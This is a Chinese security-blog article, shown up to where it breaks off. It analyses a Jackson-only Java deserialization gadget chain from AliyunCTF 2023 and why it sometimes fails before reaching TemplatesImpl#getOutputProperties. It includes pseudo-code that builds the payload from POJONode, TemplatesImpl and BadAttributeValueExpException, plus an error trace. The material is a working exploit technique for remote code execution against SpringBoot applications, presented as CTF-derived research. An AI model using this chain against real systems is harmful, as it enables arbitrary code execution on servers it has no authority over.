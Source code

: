 

# 从JSON1链中学习处理JACKSON链的不稳定性 - 先知社区

从JSON1链中学习处理JACKSON链的不稳定性

* * *

## 简介

今天四月份的 AliyunCTF 2023 中公开了一条只依赖于 Jackson 这个 JSON 序列化库的原生反序列化利用链【1】。这条 JACKSON 链可以直接在无任何额外依赖的 SpringBoot 环境下使用，十分方便。但是，由于Jackson 获取类属性顺序的不稳定性，导致有时 JACKSON 链在触发 `getOutputProperties` 方法之前就报错了。本文参考著名反序列化利用工具 ysoserial【2】 中的 JSON1 链，在新添加一个 Spring AOP 依赖的基础上，对 JACKSON 链进行改进，使得 JACKSON 链在 SpringBoot 环境下可以稳定触发 `getOutputProperties` 方法。

## 关于 JACKSON 链

首先给出一段构造 JACKSON 链的（伪）代码，详细代码可以参考 AliyunCTF 2023 的 writeup【1】.

```plain
public static byte[] getJSON1(String cmd) throws Exception {
                // step 1
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
                // step 2
        POJONode node = new POJONode(makeTemplatesImpl(cmd));
                // step 3
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);

        return serialize(val);
    }
```

代码主要分三段，第一段是在 `com.fasterxml.jackson.databind.node.BaseJsonNode` 被类加载器加载前，使用 `javassist` 工具删除它的 `writeReplace` 方法。

第二段是构造一个 `TemplatesImpl` 类型的对象，然后用其构造一个 `POJONode` 类型的对象。

第三段是将这个 `POJONode` 类型的对象设置为 `BadAttributeValueExpException` 类型的对象的 `val` 字段的值，之后反序列化时触发 `POJONode` 类型的对象的 `toString` 方法。

JACKSON 链的原理是 `POJONode` 类型的对象的 `toString` 方法会触发用来构造 `POJONode` 类型的对象的 `TemplatesImpl` 类型的对象的所有 `getter` 方法，最终触发 `TemplatesImpl#getOutputProperties` ，导致任意类加载。

## JACKSON 链的不稳定性

有时在使用 JACKSON 链时，我们会遇到如下报错:

```plain
Caused by: java.lang.NullPointerException
    at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getStylesheetDOM(TemplatesImpl.java:450)
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    at java.lang.reflect.Method.invoke(Method.java:483)
    at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
    at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
    ... 74 more
```
